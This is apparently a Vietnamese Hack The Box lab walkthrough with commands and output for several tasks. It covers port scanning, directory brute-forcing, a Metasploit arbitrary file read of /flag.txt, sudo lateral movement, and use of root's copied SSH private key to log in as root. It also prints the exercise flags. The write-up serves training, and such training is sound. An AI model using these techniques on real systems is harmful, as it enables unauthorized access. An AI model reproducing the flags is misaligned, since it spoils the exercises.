# WriteUp 
## 12.1 

Dùng lệnh `netcat 94.237.58.106 42915`



---

## 13.1 
Dùng lệnh nmap `-sV -sC -p- 10.129.95.31`
```
root@htb-ycf0ftyvvq:~# nmap -sV -sC -p- 10.129.95.31
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-13 12:19 CST
Nmap scan report for 10.129.95.31
Host is up (0.010s latency).
Not shown: 65528 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Feb 25  2021 pub
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.15.130
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 a0:01:d7:79:e9:d2:09:2a:b8:d9:b4:9a:6c:00:0c:1c (RSA)
|   256 2b:99:b2:1f:ec:1a:5a:c6:b7:be:b5:50:d1:0e:a9:df (ECDSA)
|_  256 e4:f8:17:8d:d4:71:d1:4e:d4:0e:bd:f0:29:4f:6d:14 (ED25519)
80/tcp   open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: PHP 7.4.3 - phpinfo()
139/tcp  open  netbios-ssn Samba smbd 4.6.2
445/tcp  open  netbios-ssn Samba smbd 4.6.2
2323/tcp open  telnet      Linux telnetd
8080/tcp open  http        Apache Tomcat
|_http-title: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: GS-SVCSCAN, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time:
|   date: 2025-01-13T18:20:18
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.50 seconds

```
---
### Perform an Nmap scan of the target. What does Nmap display as the version of the service running on port 8080? `Apache Tomcat`

### Perform an Nmap scan of the target and identify the non-default port that the telnet service is running on ? `2323`

### List the SMB shares available on the target host. Connect to the available share as the bob user. Once connected, access the folder called 'flag' and submit the contents of the flag.txt file ? `dceece590f3284c3866305eb2473d099`
---
## 14
---
Dùng lệnh `gobuster dir -u http://94.237.54.42:52173/ -w /usr/share/seclists/Discovery/Web-Content/common.txt`

```
root@htb-ycf0ftyvvq:/usr/share/wordlists# gobuster dir -u http://94.237.54.42:52173/ -w /usr/share/seclists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://94.237.54.42:52173/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 280]
/.htaccess            (Status: 403) [Size: 280]
/.htpasswd            (Status: 403) [Size: 280]
/index.php            (Status: 200) [Size: 990]
/robots.txt           (Status: 200) [Size: 45]
/server-status        (Status: 403) [Size: 280]
/wordpress            (Status: 301) [Size: 325] [--> http://94.237.54.42:52173/wordpress/]
Progress: 4723 / 4724 (99.98%)
===============================================================
Finished
===============================================================
```

Thử login các web trả về 200 ta được 



Login với url: `http://94.237.54.42:52173/admin-login-page.php` 



Kiểm src code ta thấy được thông tin login --> Tiến hành login ta được flag





---
## 15 
---


### Try to identify the services running on the server above, and then try to search to find public exploits to exploit them. Once you do, try to get the content of the '/flag.txt' file. (note: the web server may take a few seconds to start) ? `HTB{my_f1r57_h4ck}`

Dùng Metasploit như sau:
```
Metasploit Documentation: https://docs.metasploit.com/

[msf](Jobs:0 Agents:0) >> use auxiliary/scanner/http/wp_simple_backup_file_read
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/wp_simple_backup_file_read) >>
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/wp_simple_backup_file_read) >> set RHOSTS 94.237.58.147
RHOSTS => 94.237.58.147
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/wp_simple_backup_file_read) >> set RPORT 53239
RPORT => 53239
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/wp_simple_backup_file_read) >> set FI
set FILEPATH          set FINGERPRINTCHECK
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/wp_simple_backup_file_read) >> set FILEPATH /flag.txt
FILEPATH => /flag.txt
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/wp_simple_backup_file_read) >> exploit

[+] File saved in: /root/.msf4/loot/20250115020934_default_94.237.58.147_simplebackup.tra_630420.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Dùng lệnh cat tại path `/root/.msf4/loot/20250115020934_default_94.237.58.147_simplebackup.tra_630420.txt`





## 17
### SSH into the server above with the provided credentials, and use the '-p xxxxxx' to specify the port shown above. Once you login, try to find a way to move to 'user2', to get the flag in '/home/user2/flag.txt'. ? `HTB{l473r4l_m0v3m3n7_70_4n07h3r_u53r}`

Dùng lệnh sudo -l kiếm tra quyền truy cập 
```
user1@ng-1674007-gettingstartedprivesc-biyp3-7f7646d5db-dm8n4:~$ sudo -l
Matching Defaults entries for user1 on
    ng-1674007-gettingstartedprivesc-biyp3-7f7646d5db-dm8n4:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user1 may run the following commands on
        ng-1674007-gettingstartedprivesc-biyp3-7f7646d5db-dm8n4:
    (user2 : user2) NOPASSWD: /bin/bash
```

Qua kết quả ta thấy user `user1` có thể chạy lệnh /bin/bash với quyền của user `user2` mà không cần nhập mật khẩu 

Ta chạy lệnh sudo -u user2 /bin/bash
```
user1@ng-1674007-gettingstartedprivesc-biyp3-7f7646d5db-dm8n4:/home$ sudo -u user2 /bin/bash
user2@ng-1674007-gettingstartedprivesc-biyp3-7f7646d5db-dm8n4:/home$ ls
user1  user2
user2@ng-1674007-gettingstartedprivesc-biyp3-7f7646d5db-dm8n4:/home$ cd user2
user2@ng-1674007-gettingstartedprivesc-biyp3-7f7646d5db-dm8n4:~$ cat flag.txt
HTB{l473r4l_m0v3m3n7_70_4n07h3r_u53r}
```
### Once you gain access to 'user2', try to find a way to escalate your privileges to root, to get the flag in '/root/flag.txt' ? `HTB{pr1v1l363_35c4l4710n_2_r007}`

Từ bước trên đăng nhập vào được user2 ta sao chép file tại path `/root/.ssh` copy các file các file đó đến path `/home/user2` và cấp quyền
```
cp -r id_rsa id_rsa.pub /home/user2
chmod 600 id_rsa
```
Tạo khóa với lệnh `ssh-keygen -f key`

Kiểm tra file ssh ta thấy port đã đổi 22 sang 80 



Tiến hành đăng nhập
```
ifconfig # login với mạng eth0 ip 192.168.25.82
ssh root@192.168.25.82 -p 80 -i id_rsa
```


---
## 21.1
### Run an nmap script scan on the target. What is the Apache version running on the server? (answer format: X.X.XX) ? `2.4.18`
Dùng nmap 
```
nmap -A -p- -oA nmap_scan.txt 10.129.147.61
```


---
## 23.1
### Gain a foothold on the target and submit the user.txt flag ? 
Dùng gobuster tìm kiếm các file ẩn trên server

```
┌──(root㉿kali)-[/home/kali/Downloads]
└─# gobuster dir -u  http://10.129.147.61/nibbleblog/ -w /usr/share/seclists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.147.61/nibbleblog/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 308]
/.hta                 (Status: 403) [Size: 303]
/.htaccess            (Status: 403) [Size: 308]
/README               (Status: 200) [Size: 4628]
/admin                (Status: 301) [Size: 325] [--> http://10.129.147.61/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]
/content              (Status: 301) [Size: 327] [--> http://10.129.147.61/nibbleblog/content/]
/index.php            (Status: 200) [Size: 48]
/languages            (Status: 301) [Size: 329] [--> http://10.129.147.61/nibbleblog/languages/]
/plugins              (Status: 301) [Size: 327] [--> http://10.129.147.61/nibbleblog/plugins/]
/themes               (Status: 301) [Size: 326] [--> http://10.129.147.61/nibbleblog/themes/]
Progress: 4734 / 4735 (99.98%)
===============================================================
Finished
===============================================================
```
Đi đến các mã 200 `http://10.129.147.61/nibbleblog/admin.php` ta thấy được trang login 



